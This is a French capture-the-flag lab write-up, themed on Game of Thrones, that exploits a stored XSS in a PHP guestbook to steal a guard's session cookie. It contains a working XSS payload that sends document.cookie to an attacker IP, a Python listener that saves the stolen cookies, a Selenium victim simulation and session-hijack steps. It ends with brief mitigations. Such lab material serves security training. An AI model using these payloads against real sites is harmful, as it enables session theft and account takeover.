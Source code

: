 ```yaml
---
title: Writes-up 2
next: "/write-ups/wu3"
prev: "/write-ups/wu1"
---
```


# 🏰 Stored XSS & Vol de Cookie - Livre d'Or de Lannisport

## 🎯 Objectif
John doit voler le **cookie de session d’un garde** pour accéder à Castral-Roc.
Pour cela, il injecte un **XSS stocké** dans le **livre d’or** afin de récupérer le cookie **non protégé par HttpOnly**.

**Flag attendu :** Le cookie de session du garde.

---

## ⚙️ Environnement
- **Cible :** `lannisport.south`
- **Page vulnérable :** `livre_dor.php`
- **Langage :** PHP / JavaScript

---

## 🚀 Étape 1 : Injecter un XSS dans le livre d’or
Le formulaire du livre d’or **ne filtre pas les entrées**, permettant d’injecter un script malveillant.

🔹 **Script XSS à injecter dans un commentaire** :
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://10.10.10.20:8000/?cookie=' + document.cookie, true);
xhr.send();
</script>
```

📌 **Effet** : Quand un garde consulte la page, son cookie de session est envoyé à l’attaquant.

---

## 🔍 Étape 2 : Capturer le cookie sur Kali
L’attaquant met en place un **serveur d’écoute** pour récupérer les cookies volés.

🔹 **Script Python sur Kali** :
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if "cookie" in self.path:
            cookie = self.path.split("=")[1]
            print(f"Cookie volé : {cookie}")
            with open("stolen_cookies.txt", "a") as f:
                f.write(cookie + "\n")
        self.send_response(200)
        self.end_headers()

server_address = ('10.10.10.20', 8000)
httpd = HTTPServer(server_address, Handler)
print("[+] Serveur en écoute sur le port 8000...")
httpd.serve_forever()
```

📌 **Démarrer le serveur d’écoute sur Kali** :
```bash
python3 capture_server.py
```

---

## 🚀 Étape 3 : Déclencher l’attaque avec Selenium
Un **script Selenium** simule la navigation d’un garde qui consulte le livre d’or.

🔹 **Script Selenium (Victime - MacOS)** :
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

driver = webdriver.Chrome()
driver.get("http://lannisport.south/login.php")

driver.find_element(By.NAME, "username").send_keys("garde")
driver.find_element(By.NAME, "password").send_keys("password")
driver.find_element(By.NAME, "submit").click()

time.sleep(3)
driver.get("http://lannisport.south/livre_dor.php")
time.sleep(10)

driver.quit()
```
📌 **Quand Selenium exécute ce script, il déclenche le XSS et envoie le cookie à Kali.**

---

## 🎯 Étape 4 : Validation du Flag
✅ **Kali reçoit le cookie de session** :
```bash
cat stolen_cookies.txt
```
✅ **Utilisation du cookie volé pour usurper la session du garde** :
- Ouvrir les outils développeur (`F12`) > **Application** > **Cookies**.
- Modifier `PHPSESSID` avec la valeur capturée.
- Recharger la page.

**🚀 Succès ! L’attaque est réalisée et le flag récupéré !** 🔥

---

## 🔒 Mitigation & Sécurisation
- **Activer `HttpOnly` sur les cookies** pour empêcher l’accès JavaScript.
- **Filtrer les entrées utilisateur** (`htmlspecialchars()`) pour empêcher le XSS.
- **Utiliser CSP (Content Security Policy)** pour bloquer les scripts inline.

---

## 🏆 Conclusion
- **Un XSS stocké a été exploité pour voler un cookie de session.**
- **Le serveur d’écoute Kali a capturé le flag.**
- **L’attaque est réussie !** 🚀🔥